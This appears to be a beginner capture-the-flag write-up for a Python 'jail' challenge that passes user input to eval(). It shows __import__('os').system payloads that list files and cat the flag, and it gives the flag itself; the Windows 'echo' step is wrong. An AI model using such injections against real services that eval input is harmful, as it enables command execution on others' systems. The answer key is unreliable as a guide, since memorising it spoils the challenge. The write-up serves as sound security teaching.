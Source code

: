 # PyJail-Intro 1

### Difficulty: Beginner
### Objective: `eval()`

## Setting Up
Install both the `pyjail.py` and `flag-afd3ca89be90859c70e89a903f09f9fb.txt` files into the same directory. Then, just execute the python script to start the challenge. 

![image](https://github.com/user-attachments/assets/cf04ccba-8bc8-4779-9045-b283c7dd7651)



## Solution

<details>

### Step 1
We can use the `__import__` and then called the `os` modules to use one of its functions which is `listdir` or `system`. Both have similar functions to list down the files in the working directories.

`__import__('os').listdir('.')`

![image](https://github.com/user-attachments/assets/e56d22e8-6b1e-4b6e-b7e1-2dd5d82f5723)

OR

> Linux OS:
`__import__('os').system('ls')`

> Windows OS:
`__import__('os').system('dir')`

### Step 2
Now we know that there's a file called `flag-afd3ca89be90859c70e89a903f09f9fb.txt` so we can just display the content by using `cat` or `echo` depends on the OS you're using.

>Linux OS:
`__import__('os').system('cat flag-afd3ca89be90859c70e89a903f09f9fb.txt')`

>Windows OS:
`__import__('os').system('echo flag-afd3ca89be90859c70e89a903f09f9fb.txt')`

![image](https://github.com/user-attachments/assets/e87d58ab-30ce-4629-9e00-7103aba4c632)

### Flag 
>flag{93da9b115c23778dafd95da03f642d48}

</details>
